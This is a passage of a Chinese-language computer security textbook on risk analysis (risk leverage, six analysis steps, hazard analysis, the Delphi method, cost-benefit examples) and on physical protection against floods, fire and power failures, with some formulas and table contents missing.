因此，成本不仅与风险的潜在影响相关，也与降低风险相关。**风险杠杆率** 是风险敞口的差额除以降低风险的成本。换句话说，风险杠杆率是


杠杆率衡量的是每一分投入的性价比：以 10 美元的成本实现 100 美元的风险降低，即 10:1 的降低比例，是一个非常有利的结果。如果拟议行动的杠杆值不够高，那么我们就会寻找替代的、成本更低的行动或更有效的降低技术。

---

**风险杠杆率是每单位支出所获得的收益。**

---

**风险分析** 是检查系统及其运行环境的过程，旨在确定可能的风险敞口及其可能造成的潜在危害。因此，风险分析的第一步是识别并列出所关注计算系统中的所有风险敞口。然后，针对每个风险敞口，我们识别可能的控制措施及其成本。最后一步是成本-收益分析：实施控制措施的成本是否低于接受预期损失成本？在本节的其余部分，我们将描述风险分析，展示风险分析方法的示例，并讨论执行风险分析的一些缺点。

##### 风险的本质

在日常生活中，我们承担各种风险。骑自行车、吃生蚝或买彩票时，我们都在冒险，我们的行为可能导致负面结果——如受伤、生病或损失金钱。无论有意识还是无意识，我们都在权衡采取行动的收益与可能产生的损失。仅仅因为某个行为带有风险，我们并不一定会避免它；我们过马路前会左右张望，但我们依然会过马路。在构建和使用计算系统时，我们必须采取更有组织、更谨慎的方法来评估风险。我们构建和使用的许多系统如果发生故障，会对生命和健康产生巨大影响。因此，风险分析是安全规划的重要组成部分。

我们无法保证系统完全无风险；这就是为什么我们的安全计划必须应对意外风险变成问题时所需采取的行动。有些风险仅仅是开展业务的一部分；例如，正如我们所见，我们必须规划灾难恢复，即使我们首先采取了许多措施来避免灾难。

当我们承认某个重大问题无法预防时，可以使用控制措施来降低威胁的严重性。例如，您可以备份计算机上的文件，以防文件存储设备发生故障。但随着计算系统变得更加复杂和分布式，完整的风险分析变得更加困难和耗时——也更加重要。

##### 风险分析的步骤

风险分析在许多不同的背景下执行；例如，会针对修建大坝、处置核废料或改变制造工艺等活动分析环境和健康风险。安全风险分析改编自更通用的管理实践，特别强调可能由安全问题引发的各类问题。通过遵循明确定义的步骤，我们可以分析计算系统中的安全风险。

风险分析的基本步骤如下。

1.  识别资产。
2.  确定漏洞。
3.  估算被利用的可能性。
4.  计算预期年损失。
5.  调查适用的控制措施及其成本。
6.  预测控制措施的年节省额。

侧边栏 10-4 说明了不同组织采取的方法略有不同，但基本活动仍然相同。以下各节将详细描述这些步骤。

---

###### 侧边栏 10-4：风险分析的替代步骤

执行风险分析有许多正式方法。例如，美国陆军在越战期间使用其作战安全 (`OPSEC`) 指南 [[SEC99]](#bib01.html#bib_557)。该指南包含五个步骤：

1.  识别需要保护的关键信息。
2.  分析威胁。
3.  分析漏洞。
4.  评估风险。
5.  应用对策。

同样，美国空军使用作战风险管理程序来支持其决策 [[AIR00]](#bib01.html#bib_06)。步骤如下：

1.  识别危险。
2.  评估危险。
3.  做出风险决策。
4.  实施控制。
5.  监督。

正如你所见，步骤相似，但其细节总是根据手头的特定情况量身定制。因此，你可以将他人的风险分析流程作为框架，但随后要对其进行更改以匹配你自己的情况。

---

###### 步骤 1：识别资产

在识别漏洞之前，我们必须首先决定需要保护什么。因此，风险分析的第一步是识别计算系统的资产。资产可以按以下类别考虑。前三类是第 1 章中确定的资产，并贯穿全书进行描述。其余项目虽不严格属于计算系统的一部分，但对其正常运行至关重要。

*   **硬件：** 处理器、板卡、键盘、显示器、终端、微型计算机、工作站、磁带驱动器、打印机、磁盘、磁盘驱动器、电缆、连接、通信控制器和通信介质
*   **软件：** 源程序、目标程序、购买的程序、内部开发程序、实用程序、操作系统、系统程序（如编译器）和维护诊断程序
*   **数据：** 执行期间使用的数据、各种介质上的存储数据、打印数据、归档数据、更新日志和审计记录
*   **人员：** 运行计算系统或特定程序所需的熟练员工，以及支持人员（如保安）
*   **文档：** 关于程序、硬件、系统、管理程序和整个系统的文档
*   **耗材：** 纸张、表格、激光墨盒、可记录介质和打印机墨水，以及电力、供暖和制冷、必要的建筑物或场所
*   **声誉：** 公司形象
*   **可用性：** 开展业务的能力、事件发生后快速高效恢复业务的能力

你必须根据自己的情况定制此列表。没有两个组织拥有相同的待保护资产，在一个组织中有价值的东西在另一个组织中可能不那么有价值。例如，如果一个项目只有一位关键设计师，那么该设计师就是一项必不可少的资产；另一方面，如果一个类似的项目有十位设计师，他们中的任何一位都能完成项目的设计，那么每位设计师都不是那么必不可少，因为有九个容易获得的替代者。因此，你必须在资产列表中添加其他必须受到保护的人员、流程和事物。

***

并非所有业务资产都是有形的，也并非所有资产都易于估值。

***

从某种意义上说，资产列表是系统的清单，包括无形资产和人力资源项目。出于安全目的，此清单比为配置管理或会计目的而执行的传统硬件和软件清单更全面。关键在于识别系统可用所必需的所有资产。

###### 步骤 2：确定脆弱性

风险分析的下一步是确定这些资产的脆弱性。这一步需要想象力；我们要预测资产可能发生什么损害以及损害来源。我们可以通过建立对脆弱性本质的清晰认识来增强想象力。这种本质源于确保计算机安全三大基本目标的需求：机密性、完整性和可用性。因此，脆弱性是指任何可能导致机密性、完整性和可用性丧失的情况。我们希望采用有组织的方法来考虑可能导致特定对象出现这些损失的情况。

软件工程为我们提供了几种调查潜在问题的技术。侧边栏 10-5 中描述的危害分析探讨了可能发生的故障及其可能的成因。这些技术已在分析安全关键系统方面成功应用。然而，还有专门针对安全顾虑量身定制的额外技术；我们将在本节和后续章节中讨论这些技术。

####### 侧边栏 10-5 危害分析技术

危害分析是一组系统性但非正式的技术，旨在暴露潜在的危险系统状态。使用危害分析有助于我们在了解可能发生的问题后，找到预防或减轻危害的策略。也就是说，危害分析不仅能查明问题的影响，还能查明其可能的成因，以便我们应用适当的技术来预防问题或减轻其后果。危害分析通常涉及创建危害清单，以及探索“如果……会怎样”场景的程序，以触发对非显而易见危害的考虑。问题的根源可能潜伏在开发或维护过程的任何工件中，而不仅仅是代码中。问题类型多种多样，从不正确的信息或代码，到特定行为后果不明确。良好的危害分析会将所有这些因素纳入考量。

不同的技术支持对复杂关键系统中潜在危害的识别和管理。其中最有效的包括**危害与可操作性研究**（`HAZOP`）、**失效模式与影响分析**（`FMEA`）和**故障树分析**（`FTA`）。`HAZOP` 是一种结构化分析技术，最初是为过程控制和化工行业开发的。`FMEA` 是一种应用于系统组件层面的自底向上技术。团队识别每个组件可能的故障或故障模式；然后，确定什么可能触发故障以及每个故障可能产生的系统级影响。通过牢记系统后果，团队往往能发现其他分析手段无法显示的可能系统故障。`FTA` 补充了 `FMEA`。它是一种自顶向下的技术，从假设的危险系统故障开始。然后，`FTA` 团队倒推以识别事故可能的前兆。通过从特定的危险故障追溯，团队可以推导出导致事故的意外因素，并识别降低事故风险的机会。

我们通过了解对成因和影响的掌握程度来决定哪种技术最合适。当我们了解某个问题的成因和影响时，可以强化系统应如何行为的描述。如果我们能描述一个已知影响但成因未知，则使用演绎技术（如 `FTA`）来帮助我们理解不受欢迎行为的可能成因。相反，我们可能知道问题的成因但不了解所有影响；此时，我们使用归纳技术（如 `FMEA`）帮助我们从成因追溯到所有可能的影响。最后，为了发现我们可能尚未察觉的问题，我们执行探索性分析，如 `HAZOP` 研究。

***

为了组织我们考虑威胁和资产的方式，可以使用如表 10-2 所示的矩阵。一个脆弱性可能影响多个资产或导致多种类型的损失。该表是激发思考的指南，但其格式并非僵化不变。


**表 10-2** 资产与安全属性

在思考矩阵每个条目的内容时，我们可以提出以下问题。

*   无意错误的影响是什么？考虑输入错误命令、录入错误数据、使用错误数据项、丢弃错误清单、不安全地处置输出。
*   故意恶意内部人员的影响是什么？考虑不满的员工、贿赂、好奇的浏览者。
*   外部人员的影响是什么？考虑网络访问、远程访问、黑客、进入大楼的人员、咖啡店窥探者、翻垃圾桶的人员。
*   自然和物理灾害的影响是什么？考虑火灾、风暴、洪水、停电、组件故障。

表 10-3 是上表的一个版本，其中填入了部分条目。它表明某些通用问题可能影响计算系统的资产。特定装置的规划人员将确定具体硬件、软件、数据项和其他资产可能发生什么情况。


**表 10-3** 资产与攻击

***

####### 侧边栏 10-6 集成脆弱性评估与 CARVER

美国海军（参见 [`www.safetycenter.navy.mil/orm/generalorm/introduction/default.htm`](http://www.safetycenter.navy.mil/orm/generalorm/introduction/default.htm)）将集成脆弱性评估（`IVA`）作为其风险分析过程的一部分。`IVA` 使用清单来审查系统脆弱性并建议适当的缓解策略。`IVA` 的步骤包括：

1.  识别脆弱性
2.  为脆弱性分配优先级
3.  头脑风暴对策
4.  评估风险

关键性、可接近性、恢复性、脆弱性、效果和可识别性（`CARVER`）方法用于为脆弱性分配优先级。为每个脆弱性应用数字评分，总和代表脆弱性得分。然而，求和过程模糊了不同类型风险之间的区别，因此总分的价值值得商榷。尽管如此，`IVA` 和 `CARVER` 可能有助于使安全规划问题更加清晰可见。

***

一些组织使用其他方法来确定脆弱性并评估其重要性。例如，侧边栏 10-6 描述了美国海军的脆弱性评估方法。

遗憾的是，没有简单的核对清单或简易程序能列出所有漏洞。但从本书前几章中，你已经看到了许多资产漏洞的例子，你的思维也已受训能想到可能发生的危害。工具可以通过提供一种结构化的思维方式，帮助我们构想漏洞。例如，资产具有使其变得脆弱的特定属性。这些属性存在于三个类别中：设计或架构层面、行为层面和通用属性。表 10-4 更详细地列出了这些属性。请注意，这些属性适用于多种系统，以及给定系统内的各个位置。


源自 [ANT02]，版权所有 © RAND 2002，经许可转载。

**表 10-4** 导致漏洞的属性

###### 步骤 3：估算被利用的可能性

进行风险分析的第三步是确定每个风险暴露被利用的可能频率。发生的可能性与现有控制措施的严格程度，以及有人或某事绕过现有控制措施的可能性有关。侧边栏 10-7 描述了计算事件发生概率的几种方法：古典概率、频率概率和主观概率。每种方法都有其优缺点，我们必须选择最适合具体情况（及其可用信息）的方法。

---

**侧边栏 10-7 概率的三种方法**

通常，我们将概率或可能性视为单一概念。但实际上，我们可以用多种方式思考和推导概率。你使用的概率方法决定了你对所推导出的概率数值能有多少信心。

*古典概率*是最简单、最理论化的一种。它基于一个关于世界如何运作的模型。例如，要计算掷骰子时某一特定面朝上的概率，我们会构想一个立方体模型，其中每个面的大小和重量都相等。这种概率不需要经验数据。答案可以从模型本身以客观方式推导得出。然而，古典概率要求了解基本事件，且受限于模型的正确性。古典概率不太适合处理涉及无限集合的问题。

当我们无法使用古典概率时，通常会选择使用*频率概率*。在这里，我们不构建骰子模型，而是拿一个真实的骰子掷很多次，每次记录结果。这种概率方法需要历史数据，并假设环境稳定且可复现。在我们的例子中，我们假设骰子重量均匀，且每次掷骰的动作相同。频率概率从来不是精确的。我们希望的是，在极限情况下，它们接近事件的理论概率。因此，如果 100 个人每人掷骰子 100 次，每个人的分布可能略有不同，但总体分布将接近正确的分布。显然，频率概率不能应用于独特事件；例如，我们不能用它来估算软件在特定某天以特定方式故障的概率。

当我们既不能使用古典概率也不能使用频率概率时，往往依赖*主观概率*，它既不需要数据也不需要正式分析。在这里，我们请专家给出他们对事件发生可能性的意见，因此概率可能因人而异。我们有时使用德尔菲法（本节稍后将描述）来协调这些差异。主观概率的巨大优势是它可用于所有情况。然而，它显然不客观，且要求对情况及其背景有连贯且完整的理解。

在任何特定的风险分析中，我们可能会使用这三种估算技术中的两种甚至全部。我们倾向于使用古典概率，但必要时也会使用其他技术。

---

在安全领域，我们通常无法直接使用古典技术来评估事件的概率。然而，我们可以尝试通过使用特定系统的观测数据来应用频率概率。本地故障率相当容易记录，我们可以识别出哪些故障导致了安全漏洞或产生了新的漏洞。特别是，操作系统可以跟踪硬件故障、登录失败尝试、访问次数以及数据文件大小变化的数据。

另一种替代方法是估算在给定时间段内的发生次数。例如，我们可以请熟悉系统的分析师估算上一年描述的事件发生了多少次。虽然这个计数不精确（因为分析师不太可能掌握完整信息），但分析师对系统及其使用情况的了解可能会产生合理的估算。

当然，上述两种方法都依赖于系统已经构建并使用了一段时间这一事实。在许多情况下，特别是针对拟议的方案，使用数据不可用。在这种情况下，我们可能会请分析师通过查看基于类似系统的表格来估算可能性；这种方法被纳入几种正式的安全风险流程中。例如，分析师可能被要求选择表 10-5 中显示的评级之一。完成此分析取决于评估者的专业技能。该表为评估者提供了一个框架，以便考虑每种可能性。相近评级之间的差异不太显著。评估者应能区分一年一次和一月一次的事件。


**表 10-5** 可能性评级

---

**价值估算和事件可能性估算仅仅是估算；其目的是定位最严重漏洞点。**

---


这些方法都通向所谓的**定量风险分析**，即可以为各种风险分配数值。一些人更倾向于所谓的**定性风险分析**，即不分配数值概率。取而代之的是，使用描述性形容词来评定风险，因此一种风险可能被归类为“极有可能”，另一种为“不大可能”。在难以量化风险的情况下，定性评估更为合适，例如陨石撞击大楼的可能性。通常，定性风险随后会被分配一个数值，例如，1 代表不大可能，5 代表极有可能。这些数字是一种简单的速记符号，有时用于风险分析的下一步，即利用风险可能性来预测潜在损失。

这两种方法没有哪种是“正确”的，也没有一种必然优于另一种。在表 10-6 中，我们总结了各自的优缺点。


**表 10-6** 定量与定性风险评估的比较

### Delphi 方法

**Delphi 方法**是一种主观概率技术，最初由 RAND 公司设计 [HAL67]，用于处理公共政策决策。它假设专家可以根据其经验做出明智的估计；该方法将一组专家带入共识状态。使用 Delphi 方法的第一步是向几位专家各自提供描述待考虑事件周围情况的信息。例如，专家可能会被告知软硬件架构、使用条件以及用户的专业水平。然后，每位专家单独估计该事件发生的可能性。收集这些估计值，进行复制并分发给所有专家。个人估计值以匿名方式列出，并通常向专家提供一些统计信息，如平均值或中位数。然后询问专家，在参考同事提供的数值后，是否希望修改其个人估计。如果修正后的数值相当一致，则流程结束，专家组达成共识。如果数值不一致，则可能进行额外轮次的修订，直到达成共识。

### 步骤 4：计算预期损失

此时，我们已了解我们所重视的资产、其可能的脆弱性，以及脆弱性被利用的可能性。接下来，我们必须确定如果利用确实发生，可能造成的损失。与发生可能性一样，该值难以确定。某些成本，如更换硬件项目的成本，易于获取。更换一件软件的成本可以根据其初始购买成本（或规格说明、设计和编写成本）合理地进行近似估算。然而，我们必须小心，在计算中包含隐性成本。例如，他人因没有某件硬件或软件而产生成本。同样，将系统恢复到先前状态、重新安装软件或推导某条信息也存在成本。这些成本很难衡量。

此外，如果发生某些事件，可能涉及法律费用等隐性成本。例如，某些数据因法律原因需要保护。个人数据，如警方档案、税务信息、人口普查数据和医疗信息，极其敏感，向未授权人员泄露这些数据将面临刑事处罚。其他数据属于公司机密；其泄露可能使竞争对手在新产品或股价可能的变动上占据优势。某些财务数据，特别是反映不利事件的数据，可能严重影响公众对银行、保险公司或证券经纪公司的信心。我们很难确定泄露这些数据的成本。

如果计算系统、一件软件或关键人员不可用，导致特定计算任务延迟，可能会产生严重后果。如果打印工资单的程序延迟，员工对公司的信心可能受到动摇，或者某些员工可能因无法支付自己的账单而面临罚款。如果客户因计算机宕机无法进行交易，他们可能会选择将业务转给竞争对手。对于涉及人命的某些时效性关键服务，如医院的生命维持系统或空间站的制导系统，故障成本无限高。

***

**预期损失的估计必然是不精确的；相对大小比绝对值更重要。**

***

因此，我们必须分析计算机安全故障的后果。以下问题可促使我们思考与安全相关的显性和隐性成本问题。答案可能无法得出精确的成本数字，但有助于识别各类成本的来源。

- 保护特定数据项的机密性或完整性有哪些法律义务？
- 哪些业务需求和协议涵盖了该情况？如果组织无法提供服务，是否必须支付违约金？
- 数据项的泄露会对个人或组织造成伤害吗？如果造成伤害，是否会面临法律诉讼？
- 未经授权访问数据项会导致未来商业机会的丧失吗？会给竞争对手带来不公平优势吗？预计收入损失是多少？
- 缺乏计算机服务的心理影响是什么？尴尬？信誉损失？业务损失？会影响多少客户？这些客户的价值如何？
- 访问数据或程序的价值是什么？该计算能否推迟？能否在别处执行？委托第三方在别处计算需要多少成本？
- 他人访问数据或程序的价值是什么？竞争对手愿为访问权支付多少费用？
- 数据丢失还会引发哪些其他问题？数据能否替换或重建？需要多少工作量？

这些成本难以评估。尽管如此，为了全面了解风险，它们是必要的。此外，计算机安全中的脆弱性往往比管理者预期的要高得多。对潜在危害的现实估计可以引起重视，并指出特别需要加强安全的地方。

### 步骤 5：调查并选择新控制措施

此时，在我们的风险分析中，我们已了解系统的脆弱性及被利用的可能性。接下来我们转向控制措施的分析，以查看哪些措施能应对我们已识别的风险。我们希望将每个脆弱性与至少一种适当的安全技术相匹配。一旦完成匹配，我们就可以利用预期损失估计，帮助我们决定哪些控制措施（单独或组合使用）在特定情况下最具成本效益。

#### 选择控制措施

在此分析中，控制措施可以重叠，例如，当人工守卫和上锁的门都防范未经授权的访问时。这两者都不算冗余，因为人工守卫可以处理特殊情况（例如，合法用户丢失钥匙），而门锁可在守卫分心时防止进入。此外，一种控制措施可能覆盖多个脆弱性，因此对一组数据进行加密可能同时保护机密性和完整性。

控制措施有积极和消极的影响：例如，加密保护机密性，但也消耗时间并引入密钥管理问题。因此，在选择控制措施时，必须考虑其全面影响。

控制措施并非完美无缺。它们可能失效：守卫可能被收买或打瞌睡，加密可能被破解，访问控制设备可能发生故障。某些控制措施比其他措施更强。例如，物理设备通常比书面策略更强（策略仍然有用）。

#### 哪些控制措施最佳？

通常不存在单一的最佳控制措施集。一种控制措施更强，另一种更易用，另一种预防危害而非事后检测，还有一种可防范多种类型的脆弱性。

正如你所推断的，风险分析涉及构建一个多维数组：资产、脆弱性、可能性、控制措施。将控制措施映射到脆弱性可能涉及使用图论，以选择解决所有脆弱性的最小控制措施集。仔细、系统地记录所有这些数据的优势在于，每个选择都可以被分析，且变更的副作用显而易见。

如果这个过程听起来很困难，那确实如此，但不必让人不知所措。列出所有资产不如列出前几个最重要的资产重要，通常是五到十个。假设所有漏洞不如识别几类危害和代表性原因重要。在可管理数量的资产和漏洞下，确定控制措施（其中一些可能已经到位）不必过于详尽，只要每个主要漏洞都有相应的控制措施覆盖即可。

### 步骤 6：项目成本与收益

到我们风险分析的这个阶段，我们已经确定了针对列表中每个漏洞的控制措施。下一步是确定成本是否超过预防或减轻风险的收益。回顾一下，我们将风险概率乘以风险影响来确定风险暴露。风险影响是指如果风险转化为现实问题，我们可能经历的损失。有一些技术可以帮助我们确定风险暴露。

给定控制措施的有效成本是该控制措施的实际成本（如采购价、安装成本和培训成本）减去使用该控制措施预期的损失（如管理或维护成本）。因此，如果控制措施的管理成本昂贵，或在系统的其他领域引入了新风险，控制措施的真实成本可能为正值。或者，如果风险降低幅度大于控制措施的成本，成本甚至可以是负值。

例如，假设某部门确定一些用户已获得对计算系统的未授权访问。管理者担心入侵者可能拦截甚至修改系统上的敏感数据。解决此问题的一种方法是安装更安全的数据访问控制程序。尽管访问控制软件成本高昂（25,000 美元），但与其价值相比，这笔费用很容易证明是合理的，如表 10-7 所示。因为整个软件包的费用在第一年全部计入，预计后续年份将获得更大的收益。


**表 10-7** 访问控制软件的成本合理性分析

另一家公司使用公共载波连接网络以进行某些计算应用。该公司已识别出通过网络未授权访问数据和计算设施的风险。该公司可以通过用仅从公司场内操作的机器访问系统的要求来替代远程网络访问，从而消除这些风险。该机器尚未拥有，需要新购置一台。此示例的经济效益不佳，如表 10-8 所示。


**表 10-8** 替换网络访问的成本/收益分析

为了补充这种表格分析，我们可以使用图形描述来对比选择多种策略所涉及的经济性。例如，假设我们正在考虑在升级以修复安全缺陷后使用回归测试。回归测试意味着应用测试来验证所有剩余功能不受该更改影响。这可能是一个昂贵的过程，特别是对于实现许多功能的大型系统。（此示例取自 Shari Lawrence Pfleeger 和 Joanne Atlee [PFL10a]。）

为了帮助我们决策，我们绘制如图 10-2 所示的图表。我们想比较进行回归测试与不进行回归测试的风险影响。因此，图表的上半部分显示进行回归测试的风险，下半部分显示不进行回归测试的风险。在每种情况下，可能发生三种情况之一：我们发现一个关键故障，存在关键故障但我们未能发现，或没有关键故障可供发现。对于每种可能性，我们首先计算不期望结果的概率 P(UO)。然后，将损失 L(UO) 与该不期望结果关联。因此，在我们的示例中，如果我们进行回归测试但遗漏了潜伏在系统中的关键故障（概率为 0.05），损失可能高达 3000 万美元。将两者相乘，我们发现该策略的风险暴露为 150 万美元。正如从图中计算所见，进行回归测试比跳过它更安全。


**图 10-2** 回归测试的风险计算

正如这些示例所示，风险分析可用于评估拟议控制措施的真实成本。通过这种方式，风险分析可用作规划工具。不同控制措施的有效性可在实际投资前在纸面上进行比较。因此，风险分析可反复使用，以选择一组最优的控制措施。

### 支持与反对风险分析的论据

风险分析是一种著名的规划工具，审计师、会计师和管理者经常使用。在许多情况下，如新药、新电厂和新医疗器械的批准，许多国家的法律要求进行风险分析。在为制定安全计划做准备时，有许多充分的理由进行风险分析。

*   **提高意识**。 讨论安全问题可以提高开发人员和用户的总体兴趣和关注程度。特别是当用户群体缺乏计算专业知识时，风险分析可以教育用户了解安全在保护用户操作和产品所必需的功能和数据方面所起的作用。
*   **将安全使命与管理目标联系起来**。 安全通常被视为无收益的财务消耗。管理层并不总能看到安全有助于平衡危害和控制成本。
*   **识别资产、漏洞和控制措施**。 有些组织不了解其计算资产、这些资产对组织的价值以及与这些资产相关的漏洞。系统分析可生成资产、估值和风险的综合清单。
*   **改进决策依据**。 安全经理可以提出诸如“我认为我们在这里需要防火墙”或“我认为我们应该使用基于令牌的认证而不是密码”之类的论点。风险分析增强了经理判断作为决策依据的可靠性。
*   **为安全支出提供理由**。 某些安全机制似乎非常昂贵且没有明显收益。风险分析有助于确定实施主要安全机制值得花费的情况。管理者可以展示*不*投入安全资金所带来的大得多的风险。

***

**风险分析为安全支出提供了合理的依据，证明了支出项目和金额的合理性。**

***

然而，尽管风险分析有诸多优势，但仍有几个反对将其用于支持决策的论据。

*   **虚假的精确感和自信感**。 风险分析的核心是利用经验数据生成风险影响、风险概率和风险暴露的估算值。危险在于这些数字会给我们一种虚假的精确感，从而产生对这些数字不应有的信心。然而，在许多情况下，数字本身远不如其相对大小重要。预期损失是 100,000 美元还是 150,000 美元相对不重要。重要的是，预期损失远高于为实施特定控制措施分配的 10,000 美元或 20,000 美元预算。此外，每当风险分析产生巨大的潜在损失时，该系统都值得进一步审查，以查明是否能解决风险的根本原因。
*   **难以实施**。 列举资产、漏洞和控制措施需要创造性思维。评估损失频率和影响可能困难且主观。大规模风险分析将有许多因素需要考虑。不过，风险分析可以限制在特定资产或漏洞范围内。
*   **不可变性**。 许多软件项目负责人将风险分析等过程视为令人厌烦的必经之路——匆匆完成这一步骤，以便开发人员能着手进行与设计、构建和测试系统相关的更有趣的工作。因此，风险分析就像应急计划和五年计划一样，往往被归档后随即遗忘。但如果一个组织认真对待安全，它会将风险分析视为一份**活文档**，至少每年更新一次，或在重大系统升级时同步更新。
*   **缺乏准确性**。 由于多种原因，风险分析并不总是准确的。首先，我们可能无法准确计算风险概率，尤其是在我们没有类似情况的过往历史记录时。其次，即使我们知道发生的可能性，也并不总能很好地估算风险影响。风险管理文献中充斥着关于描述场景的论文，表明以两种不同方式向两组同等人员呈现同一情况，可能得出两个截然不同的影响估算。第三，我们可能无法预见所有可能的风险。例如，桥梁建造者不知道大风扭矩带来的风险，直到塔科马海峡大桥在风中扭曲坍塌。在研究了这座大桥的惨痛教训并发现原因后，工程师们强制要求在仿真参数中包含扭矩。同样，我们可能对软件、安全性或系统将要使用的上下文环境了解不足，因此我们的风险分析中可能存在导致其不准确的空白。

这种缺乏准确性常被引为风险分析的缺陷。但这种缺陷是**红鲱鱼**（干扰项/无关紧要的借口）。风险分析作为一种规划工具，用于比较选项，是很有用的。我们可能无法准确预测事件，但可以利用风险分析来权衡一种行动与另一种行动之间的利弊得失。当风险分析用于安全规划时，它能凸显哪些安全支出可能最具成本效益。当可用于安全的资金有限时，这种调查基础对于在控制措施中做出选择非常重要。随着我们构建更多系统、评估其安全性，并拥有更大的经验基础来得出估算，我们的风险分析应当会得到改进。

风险分析作为安全计划的一部分，或作为非正式安全决策的工具，具有许多优势。它的范围从高度主观和不精确到高度量化不等。它对于生成和记录关于可能威胁和可能对策的思考很有用。最后，它支持对安全控制进行理性决策。

接下来我们转向具有安全隐患的自然灾害。

## 10.5 应对灾难

本书的大部分内容集中在安全的技术问题及其技术解决方案上：防火墙、加密技术、恶意软件扫描器等。但许多安全威胁涉及人为或自然灾害，这些事件也应在安全计划中予以解决。因此，在本节中，我们将探讨如何应对可能出错的非技术性问题。处理非技术性问题有两个方面：预防可预防的事情，以及从不可预防的事情中恢复。**物理安全**是用来描述计算机系统外部所需保护的术语。典型的物理安全控制包括卫士、锁和围栏，以阻止直接攻击。此外，还有针对间接灾害的其他类型保护，如洪水和停电；这些也是物理安全的一部分。正如本节所示，许多物理安全措施仅凭良好的常识就能建立，马克·吐温曾指出常识“是一种极不常见的美德。”

### 自然灾害

计算机会遭遇与家庭、商店和汽车相同的自然灾害。它们可能被淹没、烧毁、熔化、被坠落物击中，并被地震、风暴和龙卷风摧毁。此外，计算机对其运行环境敏感，因此过热或供电不足也是一种威胁。没有人能阻止自然灾害，但通过周密的规划，组织可以减轻其造成的损害。可以采取一些措施来减少其影响。由于许多危险无法预防或预测，控制措施的重点在于限制可能的损害并从灾难中快速恢复。需要考虑的问题包括：异地备份的需求、设备更换成本、设备更换速度、可用算力的需求，以及更换数据和程序的成本或难度。

***

**自然灾害既无法预测也无法预防；这并不能成为未做好准备的借口。**

***

#### 洪水

自然洪水的水源来自地面，逐渐上涨，并带来泥沙和碎片。通常，员工有时间有序地关闭计算系统；最坏的情况是，组织会丢失一些正在进行的处理任务。在其他时候，例如大坝决堤、水管爆裂、喷淋系统故障或暴风雨中屋顶坍塌时，突发洪水可能在任何东西被挽救之前就淹没系统及其用户。水可能来自上方、下方或侧面。机器可能被泥水毁坏或损坏，但大多数计算系统都有保险，且可由制造商更换。认识到额外风险的独特或不可替代设备的管理者，有时会购买或租赁重复的冗余硬件系统，以确保服务不中断。

即使硬件可以更换，我们也必须关注存储的数据和程序。系统管理员可以选择以一种易于识别最重要数据的方式标记存储介质。例如，绿、黄、红标签可显示哪些磁盘最敏感，以便在暴风雨期间将所有红标签磁盘从数据中心移出。同样，大塑料袋和防水胶带可放在重要设备和介质附近；一旦发生水管爆裂或其他突发洪水，可用它们保护硬件和存储介质。

真正的问题是保护数据并保持计算能力。确保数据安全的唯一方法是在一个或多个安全地点存储备份副本。

#### 火灾

火灾比水灾更严重；通常反应时间不多，且人员生命更可能面临直接危险。为确保系统人员能迅速反应，每个用户和管理者都应有一个有序关闭系统的计划。这一过程只需几分钟，但能让恢复容易得多。该计划应包含所有人的个人职责：一些人负责停止系统，另一些人负责保护关键介质，还有一些人负责关闭介质柜的门。应做好次要职责的安排，以便现场人员能为不在办公室的人员履行职责。

传统上用水灭火，但水会损坏设备和纸张。事实上，喷淋系统可能比火灾本身破坏性更大。火灾传感器通常会触发多个喷头，淋湿整个房间，即使火灾仅仅是废纸篓里燃烧的纸张，对计算系统毫无威胁。许多计算中心使用二氧化碳灭火器或自动喷洒卤代烷等气体的系统，以窒息火灾且不留残留物。不幸的是，这些气体系统通过置换室内氧气来工作，扼灭火焰但也让人无法呼吸。因此，当这些保护装置被激活时，人员必须撤离，从而中止抢救便携介质的努力。

##### 物理安全防护

最佳防御措施是精心选择计算设施的位置。无窗位置、防火通道门和不可燃的全高墙壁可以防止某些火灾从相邻区域蔓延到计算机房。有了防火防烟设施，人员只需关闭系统并离开，或许带走最重要的介质即可。

火灾预防非常有效，特别是因为大多数计算机产品不易燃。提前规划并辅以模拟演练，可以帮助充分利用疏散前的宝贵时间。

##### 其他自然灾害

计算机易受风暴、地震、火山爆发等事件影响。虽然建筑物倒塌、爆炸和坠落物损坏不属于自然灾害，但可归入同一类别。这类灾难难以预测或评估。

但我们知道这些灾难必然会发生。安全管理人员通过以下方式应对：

- 制定应急预案，使人员知晓紧急情况下的反应措施，保障业务连续性
- 为物理资产（计算机、建筑物、设备、耗材）投保
- 在物理隔离的位置维护副本，以保存敏感数据

##### 电力故障

计算机需要“食物”——电力，且需要恒定、纯净的供电。直接断电会导致所有计算立即停止。由于突然断电可能损坏介质，许多磁盘驱动器会监控电源电平，若电源故障则迅速缩回记录磁头。对于某些时效性关键应用，系统服务中断是不可容忍的；此类情况下，必须即时提供备用完整电源。

#### 不间断电源 (UPS)

防止断电的一种保护措施是使用不间断电源。该设备在正常运行期间储存能量，以便在电源故障时提供备用能量。一种形式的 UPS 使用电池，通电时持续充电，断电时供电。但体积、发热、易燃性和低输出可能是电池的问题。


一些 UPS 使用大型飞轮，通电时保持持续运动。断电时，飞轮的惯性驱动发电机产生电力。体积和有限的能量输出持续时间是此类电源的问题。这两种电源旨在提供有限时间的电力，刚好足以保存计算的当前状态，确保无计算损失。

### 浪涌抑制器

电力的另一个问题是其“洁净度”。虽然大多数人未察觉，但电压偏离标称值 10% 被视为可接受，某些电力线波动甚至更大。特定电力线可能持续偏高或偏低 10%。

许多地方在大型电器（如空调）启动时灯光会瞬间变暗。大型电机启动会汲取异常大电流，减少流向同线路其他设备的电流；电机停止时，汲取电流的突然终止会沿线路发送瞬时浪涌。同样，雷击可能发送瞬时大脉冲。因此，任何电力线传输的电力并非恒定，而是显示许多短暂波动，称为跌落、尖峰和浪涌。跌落是电压瞬时降低，尖峰或浪涌是电压升高。对计算设备而言，跌落比浪涌危害小。大多数电气设备能容忍较大电流波动。

然而，这些变化可能破坏敏感电子设备。称为“浪涌抑制器”的简单设备可滤除电力线上的尖峰，阻断影响计算机的波动。这些设备价格在 20 美元到 100 美元之间；应安装在每台计算机、打印机或其他连接组件上。更敏感的型号通常用于大型系统。

如前所述，雷击可通过电力线发送浪涌。为增加保护，个人计算机用户通常在不使用机器时以及雷雨天气拔掉电源插头。另一个可能的破坏源是雷击电话线。因电压浪涌可沿电话线进入计算机或外设，雷雨期间应将电话线从调制解调器断开。这些简单措施可节省大量工作并保护贵重设备。

### 人为破坏

